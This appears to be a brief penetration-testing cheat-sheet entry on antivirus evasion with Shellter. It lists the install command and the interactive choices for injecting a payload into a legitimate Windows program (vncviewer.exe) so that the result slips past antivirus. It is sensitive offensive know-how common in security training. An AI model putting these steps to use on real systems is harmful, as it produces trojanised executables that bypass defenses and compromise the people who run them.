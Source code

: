 # AV Evasion with Shellter

Shellter (Use With Wine)

```bash
sudo apt install shellter -y
#choose auto
/home/kali/vncviewer.exe
y 
L 
1
```
